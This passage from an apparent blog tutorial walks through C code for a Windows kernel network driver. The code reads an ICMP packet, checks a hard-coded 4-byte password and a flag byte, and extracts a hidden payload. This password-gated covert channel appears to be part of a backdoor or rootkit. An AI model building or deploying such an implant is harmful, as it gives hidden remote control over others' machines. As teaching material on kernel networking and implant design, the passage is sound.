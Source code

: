 Finally, we call <a href="https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/nblapi/nf-nblapi-ndisgetdatabuffer" target="_blank">`NdisGetDataBuffer`</a> to read the bytes of the ICMP packet and store them in the `icmpPacket` variable. It is worth noting that, as per the documentation, `icmpPacket` is simply a pointer pointing to the beginning of the allocated `icmpBuffer`. Consequently, both `icmpPacket` and `icmpBuffer` can theoretically be utilized interchangeably to access the extracted data, but don't quote me on that though, as I've simply sticked to using `icmpPacket` later on... Anyways, should `NdisGetDataBuffer` fail, we free the allocated memory and exit out of the function once again.

***

### Parsing the custom protocol
At last, it's time to finally finish the driver. At this point we just need to parse the custom protocol embedded within the packet and we should be done! 

Here is the code required to accomplish this task:
```c
//...
//...
// if (!icmpPacket) {
//   ExFreePoolWithTag((PVOID)icmpBuffer, ALLOC_TAG_NAME);
//   return;
// }

// Extract the password from the ICMP packet (first 4 bytes after the 8-byte ICMP header)
BYTE icmpPassword[4] = { 0 };
RtlCopyMemory(icmpPassword, &icmpPacket[8], 4);

// Check if the password is valid
if (!(
  icmpPassword[0] == PASSWORD[0] &&
  icmpPassword[1] == PASSWORD[1] &&
  icmpPassword[2] == PASSWORD[2] &&
  icmpPassword[3] == PASSWORD[3]
  )) {

  KdPrint(("  - [!] Discarding the packet due to an invalid password - {0x%x, 0x%x, 0x%x, 0x%x}.\n", icmpPassword[0], icmpPassword[1], icmpPassword[2], icmpPassword[3]));
  return;
}

// Extract the flag from the ICMP packet (first byte after the password)
BYTE icmpFlag = icmpPacket[12];

// Check if the flag is valid
if (!(
  icmpFlag == 0 ||
  icmpFlag == 1
  )) {
  KdPrint(("  - [!] Discarding the packet due to an invalid flag - {0x%x}.\n", icmpFlag));
  return;
}

// Allocate memory for the payload
LPSTR icmpPayload = ExAllocatePoolWithTag(POOL_FLAG_NON_PAGED, (SIZE_T)(payloadLength + 1), ALLOC_TAG_NAME); //+1 for '\0'
if (!icmpPayload) {
  return;
}

// Extract the payload from the ICMP packet (bytes after the flag)
RtlZeroMemory(icmpPayload, payloadLength + 1);
RtlCopyMemory(icmpPayload, &icmpPacket[13], payloadLength);

```